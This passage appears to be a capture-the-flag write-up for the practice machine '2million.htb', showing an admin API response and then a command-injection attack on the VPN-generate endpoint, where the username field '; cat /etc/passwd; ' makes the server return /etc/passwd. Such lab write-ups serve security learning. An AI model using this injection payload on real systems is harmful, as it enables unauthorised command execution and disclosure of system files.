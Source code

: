 Response:

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 18:23:11 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 41

{
    "id":13,
    "username":"ap3zzi",
    "is_admin":1
}
```

Logging in as `admin` has added no functionality to the web app, other than the ability to make calls to the `/api/v1/admin` endpoint.

There is the `/api/v1/admin/vpn/generate` endpoint that returns a `openvpn` file. 

It suggests that is used a OS command to generate the file.

[+] RCE - Remote Code Execution.

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Upgrade-Insecure-Requests: 1
Content-type: application/json
Priority: u=0, i
Content-Length: 50

{
    "email": "",    
    "username":"; cat /etc/passwd; "
}
```


```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 21:22:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1975

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```